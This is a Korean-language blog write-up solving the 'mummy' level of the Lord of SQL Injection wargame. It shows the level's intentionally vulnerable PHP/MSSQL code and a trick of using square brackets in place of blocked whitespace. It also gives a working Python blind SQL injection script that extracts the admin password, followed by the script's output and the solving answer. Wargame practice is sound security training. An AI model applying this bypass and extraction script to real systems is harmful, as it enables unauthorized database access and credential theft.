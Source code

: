 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - mummy 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이제 거의 다 정리 해 간다.  

앞으로 5문제만 더 정리하면 `LoS`에 대한 풀이는 모두 정리가 끝난다.  

다음 문제 이름은 `mummy`이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------
query : select
---------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect("mummy");
  if(preg_match('/master|sys|information|;|\(|\//i', $_GET['query'])) exit("No Hack ~_~");
  for($i=0;$i<strlen($_GET['query']);$i++) if(ord($_GET['query'][$i]) <= 32) exit("%01~%20 can used as whitespace at mssql");
  $query = "select".$_GET['query'];
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result[0]) echo "<h2>Hello anonymous</h2>";

  $query = "select pw from prob_mummy where id='admin'";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("mummy");
  highlight_file(__FILE__);
?>
```

이번 문제도 `id='admin'`일 때의 정확한 `pw`의 값을 알아야 하는 `Blind SQL Injection` 문제이다.  

그런데 중간에 보면 다음과 같은 코드가 있다.  

```php
for($i=0;$i<strlen($_GET['query']);$i++) if(ord($_GET['query'][$i]) <= 32)exit("%01~%20 can used as whitespace at mssql");
```

즉, 아스키코드표의 `0x01 ~ 0x20`까지 쓸 수 없다는 것인데, 문제는 이 범위 안에 `Tab(0x09)`, `Line Feed(0x0a)`, `Vertical Tab(0x0b)`, `Carriage Return(0x0d)`, `Space(0x20)`가 모두 들어있다는 것이다.  

때문에 쿼리문에서 필수적인 `Whitespace` 문자를 모두 사용할 수가 없다.  

그래서 인터넷을 뒤지다가 `[]`를 사용하면 된다는 글을 봤다.  

지금 다시 찾으려고 하니 도저히 못찾겠는데, 그땐 있었다.  

그때의 나는 검색 능력이 지금보다 뛰어났었나보다 ㅎㅎ   

쨌든 `[]`는 아래처럼 사용하면 된다.  

```
select'1'from[table]where[column]='a'
```

그래서 문제를 풀기 위해서 위의 `[]`를 이용 해 아래와 같이 소스코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 20

url = "https://los.rubiya.kr/chall/mummy_2e13c2a4483d845ce2d37f7c910f0f83.php?query="
session = dict(PHPSESSID = "YOUT SESSION ID")

print "[+] Start"

print "[+] Find password"

end = False

for j in range(1, length + 1):
        for i in range(48, 128):
                try:
                        query = url + "'1'from[prob_mummy]where[id]='admin'and[pw]like'" + flag + chr(i) + "%'"
                        r = requests.post(query, cookies=session)
                except:
                        print "[-] Error occur"
                        continue

                if 'Hello anonymous' in r.text:
                        flag += chr(i)
                        print "[+] Found " + str(j), ":", flag
                        break
                if i == 127:
                        print "[+] Maybe it's end"
                        end = True
                        break
        if end == True:
                break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 아래와 같이 결과값을 얻을 수 있다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 0C
[+] Found 3 : 0C3
[+] Found 4 : 0C3C
[+] Found 5 : 0C3CC
[+] Found 6 : 0C3CC2
[+] Found 7 : 0C3CC24
[+] Found 8 : 0C3CC245
[+] Maybe it's end
[+] Found password :  0C3CC245
[+] End
```

나온 결과값에서 알파벳을 소문자로 바꾸어 아래와 같이 입력하면 문제를 풀 수 있다.  

```
?pw=0c3cc245
```

```php
--------------------------------
query : select
--------------------------------

MUMMY Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect("mummy");
  if(preg_match('/master|sys|information|;|\(|\//i', $_GET['query'])) exit("No Hack ~_~");
  for($i=0;$i<strlen($_GET['query']);$i++) if(ord($_GET['query'][$i]) <= 32) exit("%01~%20 can used as whitespace at mssql");
  $query = "select".$_GET['query'];
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result[0]) echo "<h2>Hello anonymous</h2>";

  $query = "select pw from prob_mummy where id='admin'";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("mummy");
  highlight_file(__FILE__);
?>
```

`MUMMY Clear`